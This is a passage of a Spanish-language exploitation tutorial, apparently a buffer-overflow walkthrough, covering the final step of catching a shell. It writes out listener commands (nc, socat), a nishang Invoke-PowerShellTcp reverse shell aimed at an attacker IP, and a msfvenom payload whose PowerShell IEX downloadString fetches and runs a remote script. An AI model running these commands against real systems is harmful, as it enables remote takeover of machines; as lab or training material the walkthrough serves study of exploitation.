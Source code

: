 	    print("Could not connect.")

# Servidor para establecer la conexión

Lo último que faltaría hacer sería abrir un servidor ya sea con nc, socat, rlwrap, python etc.
Les dejo ejemplos para poner en escucha varios de estos servicios por si alguno les genera algún problema:


Corregido con https://www.corrector.co/es/

    nc -lvp [puertoDeShellCode]
    socat TCP-LISTEN:[puertoDeShellCode] stdout
    rlwrap -lvp [puertoDeShellCode]

En mi caso voy a abrir el servidor con nc, lanzamos el exploit y que surja la **magia**.

![pattern](https://i.ibb.co/KWXQxWK/image2.png)


# Accediendo a traves de una PowerShell
Una de las cosas que podemos hacer es acceder desde una PowerShell para poder tener un poco más de control sobre la máquina ya que tenemos el control total sobre el EIP y ESP podemos variar la forma de acceder y de esa forma tener una alternativa.

Lo primero que vamos a hacer es descargar y configurar una utilidad llamada nishang con los siguientes comandos :
*En el caso del último comando "echo" hay que configurar la IP y el puerto del servidor del atacante por el cual se va a establecer la conexion*


Corregido con https://www.corrector.co/es/


    sudo git clone https://github.com/samratashok/nishang
    cd nishang/Shells/
    echo "Invoke-PowerShellTcp -Reverse -IPAddress ipAtacante -Port 4444" >> Invoke-PowerShellTcp.ps1

 Vamos a generar un nuevo payload con *msfvenom* pero esta vez le vamos a pasar el comando que queremos ejecutar al payload en este caso le voy a decir que quiero que me genere una shell por PowerShell : 

*CMD = Comando a ejecutar a nivel de sistema*

    msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://127.0.0.1:8000/Invoke-PowerShellTcp.ps1')" EXITFUNC=thread -b “\x00\x07\x2e\xa0” -f c

![pattern](https://i.ibb.co/Np7KCvp/nasm.png)


Copiamos el shellcode generado y lo pegamos en el exploit en la parte de ***"payload"***
Entramos dentro de la carpeta de nishang, despues a la carpeta Shells y nos compartimos un servicio HTTP con python : 

    python -m http.server

A su vez en otra consola vamos a poner a la escucha a netcat por el puerto que pusimos en el "Invoke-PowerShellTcp" en mi caso por el 4444:

